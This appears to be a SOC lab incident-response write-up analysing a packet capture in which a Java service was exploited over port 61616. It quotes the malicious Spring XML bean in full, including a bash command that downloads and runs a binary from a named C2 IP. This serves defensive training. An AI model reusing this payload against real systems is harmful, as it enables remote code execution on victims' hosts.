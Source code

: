 # Incident Response: Malicious XML Payload Exploitation

### **Scenario**
During your shift as a tier-2 SOC analyst, you receive an escalation from a tier-1 analyst regarding a public-facing server. This server has been flagged for making outbound connections to multiple suspicious IPs. In response, you initiate the standard incident response protocol, which includes isolating the server from the network to prevent potential lateral movement or data exfiltration and obtaining a packet capture from the NSM utility for analysis. Your task is to analyze the PCAP and assess for signs of malicious activity.

**Elapsed Time:** `00:04:54`

---

### **Top IPs Identified**
| IP Address        | Location       | Description              |
|-------------------|----------------|--------------------------|
| 84.239.49.16      | Romania        | Unknown                  |
| 146.190.21.92     | Netherlands    | C2 Server                |
| 134.209.197.3     | Netherlands    | Victim                   |
| 128.199.52.72     | Netherlands    | Second C2 Server         |

### **Suspicious Port Traffic**
- **Port 443** (HTTP): 4,833 Packets
- **Port 61616**: Used to execute an RCE by exploiting a Java-based application

The investigation noted suspicious traffic over these ports, leading to further analysis.

---

## **1. Identifying the C2 Servers**
Upon reviewing the packet capture using Wireshark, connections to **`146.190.21.92:8000`** were observed. The server requested an XML file located at `/invoice.xml`, which contained malicious code. This XML file referenced a second IP address, **`128.199.52.72`**, which was initially marked as "clean" but was later identified as another Command and Control (C2) server.

The attacker used this infrastructure to distribute and execute a malicious payload.

---

## **2. Analysis of the Malicious XML Payload**
The payload was delivered through a malicious XML file hosted on **`146.190.21.92`**. The XML file was structured using the Spring framework and contained the following bean configuration:

```xml
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
        <list>
            <value>bash</value>
            <value>-c</value>
            <value>curl -s -o /tmp/docker http://128.199.52.72/docker; chmod +x /tmp/docker; ./tmp/docker</value>
        </list>
    </constructor-arg>
</bean>
    ```xml
## **3. Identification of the Reverse Shell Executable**
The XML configuration initializes an instance of java.lang.ProcessBuilder, a standard Java class used to execute system commands. The method start() is invoked to execute a shell command (bash -c), which downloads a file named docker from the second C2 server at 128.199.52.72 and saves it in the /tmp directory.

The payload then changes the permissions of the file to make it executable and runs it. This tactic is a typical method used to gain initial access and control over a compromised host.
